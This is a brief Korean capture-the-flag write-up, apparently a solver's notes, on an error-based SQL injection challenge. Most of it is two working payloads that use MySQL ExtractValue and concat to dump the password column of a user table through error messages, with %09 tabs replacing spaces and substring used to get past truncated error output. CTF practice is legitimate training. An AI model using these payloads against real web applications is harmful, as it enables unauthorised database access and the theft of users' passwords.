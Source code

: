# 1차 익스플로잇 코드
```
1' and ExtractValue(1,concat(0x01,(select group_concat(upw) from user)))--%09
```
공백은 %09를 이용함

# 2차 익스플로잇 코드
```
1' and ExtractValue(1, concat(0x01, substring((select group_concat(upw) from user), 29)))--%09
```
에러에 플레그를 출력시키는 문제, 에러는 문자가 짤리기 때문에 substring을 이용해서 2번에 걸쳐서 했다
